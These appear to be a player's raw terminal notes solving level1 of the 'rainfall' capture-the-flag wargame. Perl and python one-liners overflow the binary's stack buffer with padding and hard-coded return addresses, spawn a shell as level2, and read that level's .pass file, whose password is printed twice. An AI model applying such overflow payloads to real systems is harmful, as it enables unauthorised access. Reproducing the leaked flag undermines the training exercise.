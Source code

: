 # rainfall

 ( perl -e 'print "A"x76 . "\x60\x83\x04\x08" . "\xef\xbe\xad\xde" . "\x58\xcc\xf8\xb7"' ; cat ) | ./level1
whoaim

d
/bin/sh: 2: d: not found
id
uid=2030(level1) gid=2030(level1) euid=2021(level2) egid=100(users) groups=2021(level2),100(users),2030(level1)
whoaim
/bin/sh: 4: whoaim: not found
whoami
level2
cat /home/level2/.pass
cat: /home/level2/.pass: No such file or directory
id
uid=2030(level1) gid=2030(level1) euid=2021(level2) egid=100(users) groups=2021(level2),100(users),2030(level1)
ls
ls: cannot open directory .: Permission denied
cd ..
ls
ls: cannot open directory .: Permission denied
cd level2
ls
level2
cat .pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77



 ( python -c 'print("A" * 76 + "\x60\x83\x04\x08" + "\xef\xbe\xad\x
de" + "\x58\xcc\xf8\xb7")'; cat ) | ./level1
whoami
level2
cd
/bin/sh: 2: cd: can't cd to /home/user/level1
cd ..
ls
ls: cannot open directory .: Permission denied
cd level2
cat .pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77